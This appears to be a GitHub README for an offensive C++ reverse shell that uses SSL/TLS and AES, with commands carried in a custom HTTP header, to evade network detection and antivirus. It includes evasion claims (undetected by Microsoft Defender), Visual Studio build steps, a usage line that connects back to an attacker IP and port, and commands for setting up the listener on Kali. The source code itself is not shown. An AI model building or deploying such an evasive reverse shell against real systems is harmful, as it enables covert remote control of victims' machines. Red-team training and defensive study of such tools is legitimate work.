 # Encrypted SSL/TLS C++ Reverse Shell (HTTPS)

## Overview
When it comes to SSL/TLS reverse shells, the publicly available options are often limited to:
- **Using `msfvenom` to generate an HTTPS reverse shell (Signatured)**.
- **Using a PowerShell / Python payload (high level languages)**.

### Why Do We Need One?
Using a standard reverse shell often results in unencrypted traffic, which can be easily flagged by **Network Detection and Response (NDR)** systems or firewalls. These tools inspect network traffic and can identify remote code execution patterns, blocking the binary and alerting defenders.

An encrypted reverse shell helps evade such detection by:
1. Encrypting all communication, making it harder for network tools to inspect the traffic.
2. Using SSL to blend in with legitimate HTTPS traffic.

To address this gap, I created a simple **C++ SSL Reverse Shell** POC (commented and explained):
- **Undetected** by Microsoft Defender and some other AV solutions at the time of publishing.
- Enables secure communication via SSL, reducing the chance of detection.
- Using AES Encryption / Decryption and embedding the results and commands within HTTP headers to bypass deep packet inspection.

> **Note**: I tested the binary against a limited set of antivirus solutions, and results may vary across environments.

---

## Purpose of the POC

This Proof of Concept (POC) demonstrates how to build a reverse shell that utilizes **SSL/TLS encryption** and **AES encryption/decryption** to achieve secure communication between the attacker and the target. The main objectives and functionality of this POC are as follows:

- **Avoid Detection**: By using SSL/TLS (the same protocol used for legitimate HTTPS traffic), the reverse shell traffic blends in with regular encrypted web traffic, making it much harder to detect by Network Detection and Response (NDR) systems or firewalls.
- **Encrypted Communication**: The communication between the client (target) and the attacker is encrypted using **AES** (Advanced Encryption Standard). This ensures that even if the traffic is intercepted, it cannot be easily read or tampered with without the correct decryption key.
- **Command Execution in Encrypted Form**: Commands are **encrypted** on the server side and sent to the client over the SSL connection. The client decrypts these commands, executes them, and then sends back the encrypted output to the attacker.
- **Embedding Commands in HTTP Headers**: The encrypted command is embedded within a custom HTTP header (`X-Command`), allowing it to pass through web proxies, firewalls, or any other inspection system that may be scanning traffic for unusual activity. This technique makes the reverse shell more difficult to detect by conventional network traffic analysis tools.
- **Simulating Legitimate HTTPS Traffic**: By using HTTPS (SSL/TLS) and embedding encrypted payloads within HTTP headers, the reverse shell traffic appears as regular secure web traffic, which helps evade deep packet inspection (DPI) systems that are typically used to identify malicious traffic patterns.
- **Encrypted Results Sent Back**: The results of the executed commands are also encrypted using **AES** and sent back to the attacker through the SSL connection. This ensures that the response is equally protected and remains secure during transmission, preventing interception , tampering or detection by unauthorized parties.

The goal of this POC is to illustrate a method of bypassing common network security mechanisms by employing common, but underused, techniques to maintain the confidentiality and integrity of the communication channel. It is important to note that while the reverse shell is **undetected** by some AV solutions, it is **not guaranteed** to bypass all defenses.

---

## Setup Instructions
Follow these steps to set up the project:

1. **Download the Necessary Files**:
   - Clone the repository:  
     ```bash
     git clone https://github.com/V-i-x-x/SSLReverseShell.git
     ```
   - Download `OpenSSLWin64.zip` (linked in the repository).

2. **Extract OpenSSL Libraries**:
   - Unzip `OpenSSLWin64.zip` into a folder of your choice.  
     For example, in the project, I placed it in the `C:\` directory.

     ```plaintext
     C:\OpenSSLWin64
     ```

3. **Compile the Project**:
   - Ensure the project includes the OpenSSL libraries for successful compilation into a single `.exe` binary.

---

## Additional Notes
- **OpenSSLWin64**: This is the precompiled SSL library required for the project. Ensure it is correctly set up to avoid linking issues.
- **Testing**: While the binary is undetectable by some AV solutions as of now, this is not guaranteed against all antivirus software or future updates.

---

## Configuration In Visual Studio

1- Go to C/C++ → Code Generation → Runtime Library.  
Set this to Multi-threaded (/MT) to ensure that your application links statically against the runtime libraries, which helps in creating a single binary.

![Local Image](./images/MT.png "MT FLAG")

2- Configuration Properties > C/C++ > General, add the path to the OpenSSL include directory (C:\OpenSSLWin64\install\include) to Additional Include Directories.

![Local Image](./images/Include.png "Include Libraries")

3- Under Configuration Properties > Linker > General, add the path to the OpenSSL library directory (C:\OpenSSLWin64\install\lib) to Additional Library Directories

![Local Image](./images/Linker1.png "Linker.png")

4- Under Configuration Properties > Linker > Input, add the following to Additional Dependencies:  
C:\OpenSSLWin64\install\lib\libssl.lib  
C:\OpenSSLWin64\install\lib\libcrypto.lib

![Local Image](./images/Linker2.png "Linker.png")

---

## Usage

```
Usage: C:\Users\Vixx\Downloads\SSLReverseShell.exe <ATTACKER_IP> <ATTACKER_PORT>
Example: SSLReverseShell.exe 192.168.100.10 443
```

---

## Capture the reverse shell in your Kali OS

1- Generate a New RSA Private Key and Self-Signed Certificate (Containing the Public Key)
```
openssl req -newkey rsa:2048 -nodes -keyout attacker.key -x509 -days 365 -out attacker.crt
```
2- Python Script will be the server to capture the shell and send the command back to client (encrypted with aes)
- Install required library

```
pip3 install pycryptodome
```
- Start the Server
```
┌──(kali㉿kali)-[~/Desktop/pen-300/sslrevshell]
└─$ python3 sslserverv1.3.py      
[*] Listening on 0.0.0.0:443
```
---

### Disclaimer
This project is for **educational purposes only**. Unauthorized use of this tool in production or against systems without explicit permission is strictly prohibited.
